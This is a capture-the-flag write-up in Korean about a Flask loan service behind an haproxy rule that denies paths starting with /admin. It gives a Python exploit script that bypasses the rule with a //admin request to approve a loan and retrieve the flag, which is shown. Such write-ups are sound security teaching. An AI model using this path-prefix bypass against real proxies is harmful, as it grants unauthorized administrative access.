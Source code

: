 `flask`로 작정된 간단한 대출 서비스이다.

haproxy를 사용하여 /admin 요청을 막는다.

```
global
    log stdout format raw local0
    maxconn 2000
    user root
    group root
    daemon

defaults
    log global
    option httplog
    timeout client 30s
    timeout server 30s
    timeout connect 30s

frontend http_front
    mode http
    bind :80
    acl is_admin path_beg /admin
    http-request deny if is_admin
    default_backend gunicorn

backend gunicorn
    mode http
    balance roundrobin
    server loanserver loanapp:8000 maxconn 32
```

**Unintend Solution**

prefix가 `/admin`일때만 차단하므로 `//admin`으로 요청을 보내 풀 수 있다.

```python
# ex.py
import requests as req
import uuid
from bs4 import BeautifulSoup

url = "http://loanapp.1nf1n1ty.team"
uid = uuid.uuid4()
# uid = '52068d2c-bc65-466d-8842-5c1f54c10b6f'

s = req.session()

res = s.post(f'{url}/register', data={"username":uid, "password":uid})
res = s.post(f'{url}/login', data={"username":uid, "password":uid})

res = s.post(f'{url}/loan-request', data={"amount":'100', "reason":'100'})
soup = BeautifulSoup(res.text, 'html.parser')
id = soup.find('span', 'loan-id').text.split(':')[1].strip()
print(id)

res = s.post(f'{url}//admin/loan/{id}') # bypass 
print(res.text)

res = s.get(url)
soup = BeautifulSoup(res.text, 'html.parser')
flag = soup.find('p', 'loan-message').text

print(flag)

# ironCTF{L04n_4ppr0v3d_f0r_H4ck3r$!!}
```